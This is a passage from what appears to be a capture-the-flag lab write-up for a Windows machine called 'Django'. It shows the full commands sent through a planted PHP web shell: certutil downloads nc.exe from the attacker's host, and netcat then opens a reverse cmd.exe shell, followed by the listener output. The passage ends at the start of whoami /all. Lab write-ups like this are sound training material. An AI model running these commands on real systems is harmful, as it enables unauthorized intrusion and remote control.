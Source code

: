 Since I have the victim machine as windows so I and getting this output →

![Untitled](/Vulnhub-Files/img/Django/Untitled%205.png)

Now I upload the `nc.exe` executable netcat into the system and get the reverse shell like this →

```bash
https://10.150.150.212/backdoor.php?cmd=certutil.exe%20%20-urlcache%20-f%20http://10.66.66.178/nc.exe%20nc.exe
```
{: .nolineno}
{: .nolineno}

Now I loaded the reverse shell like this and got the lisener response too →

```bash
https://10.150.150.212/backdoor.php?cmd=nc.exe%20-e%20cmd.exe%2010.66.66.178%202222
```
{: .nolineno}
{: .nolineno}

Response to that I got this →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/212]
└─$ nc -lvnp 2222
listening on [any] 2222 ...
connect to [10.66.66.178] from (UNKNOWN) [10.150.150.212] 49420
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\xampp\htdocs>
C:\xampp\htdocs>whoami
whoami
django\chuck.norris

C:\xampp\htdocs>whoami /all
whoami /all

USER INFORMATION
----------------
```